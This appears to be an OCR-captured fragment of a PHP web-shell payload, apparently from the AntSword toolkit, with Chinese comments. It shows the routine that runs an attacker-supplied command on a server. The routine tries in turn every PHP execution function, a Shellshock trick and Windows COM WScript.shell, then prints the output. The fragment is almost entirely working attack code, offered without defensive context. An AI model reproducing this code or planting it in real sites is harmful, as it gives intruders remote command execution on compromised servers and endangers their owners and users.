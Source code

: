 ```php
        $d = dirname($_SERVER["SCRIPT_FILENAME"]);

        if (fe('system')) {
            @system($c, $ret);
        } elseif (fe('passthru')) {
            @passthru($c, $ret);
        } elseif (fe('shell_exec')) {
            print(@shell_exec($c));
        } elseif (fe('exec')) {
            @exec($c, $o, $ret);
            print(join("\n", $o));
        } elseif (fe('popen')) {
            $fp = @popen($c, 'r');
            while (!@feof($fp)) {
                print(@fgets($fp, 2048));
            }
            @pclose($fp);
        } elseif (fe('proc_open')) {
            $p = @proc_open($c, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);
            while (!@feof($io[1])) {
                print(@fgets($io[1], 2048));
            }
            while (!@feof($io[2])) {
                print(@fgets($io[2], 2048));
            }
            @fclose($io[1]);
            @fclose($io[2]);
            @proc_close($p);
        } elseif (fe('antsystem')) {
            @antsystem($c); // 自定义函数或后门
        } elseif (runshellshock($d, $c)) {
            return $ret;
        } elseif (substr($d, 0, 1) != "/" && @class_exists("COM")) {
            // Windows COM 执行
            $w = new COM('WScript.shell');
            $e = $w->exec($c);
            $so = $e->StdOut();
            $ret .= $so->ReadAll();
            $se = $e->StdErr();
            $ret .= $se->ReadAll();
            print($ret);
        } else {
            $ret = 127;
        }

        return $ret;
    }

    // 执行命令并打印结果
    $ret = @runcmd($r . " 2>&1");
    print($ret != 0) ? "ret={$ret}" : "";

} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
}

asoutput();
die();
```
:::
